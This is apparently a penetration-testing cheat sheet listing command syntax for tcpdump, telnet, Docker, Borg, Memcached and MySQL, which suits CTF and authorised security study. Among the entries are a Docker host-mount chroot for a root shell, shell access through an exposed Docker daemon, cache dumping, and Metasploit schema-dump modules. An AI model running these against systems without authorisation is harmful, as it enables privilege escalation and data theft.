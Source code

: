 ### TCPDump
```
tcpdump ip proto \\icmp -i tun0
tcpdump -i tun0 icmp
tcpdump port 80
tcpdump -i wlan0 -A
```

### Telnet
```
telnet 10.0.0.1 4444
```

### Docker
```
docker images - to see all docker images
docker run -v /:/mnt --rm -it image chroot /mnt sh {getting root shell}
```
Docker command on local machine after port forwarding
```
docker -H tcp://localhost:8080 images - list all docker images
docker -H tcp://localhost:8080 container ls - list all docker images
docker -H tcp://127.0.0.1:8080 exec -it [images] sh -- get shell on instances
```

### Borg
List all archives in the repository
```
--borg list [directory]
```
List the contents of archive
```
--borg list [directory::archive]
```
Extract archive into local machine
```
--borg extract [directory::archive]
```

### Memcached
Dumping all caches
```
/usr/share/memcached/scripts/memcached-tool ip:port dump
```

### Mysql
Connecting to the mysql service 
```
mysql -h 10.0.0.1 -u admin -p 
```
Commands for the sql server
```	
show databases;
use [db name];
show tables;
describe [tb name];
SELECT * FROM [tb name];
UPDATE [tb name] set [col name] = [value];
```
Get the mysql server version with metasploit
```
use auxiliary/admin/mysql/mysql_sql
```
Dump tables and columns in database with metasploit
```
use auxiliary/scanner/mysql/mysql_schemadump
```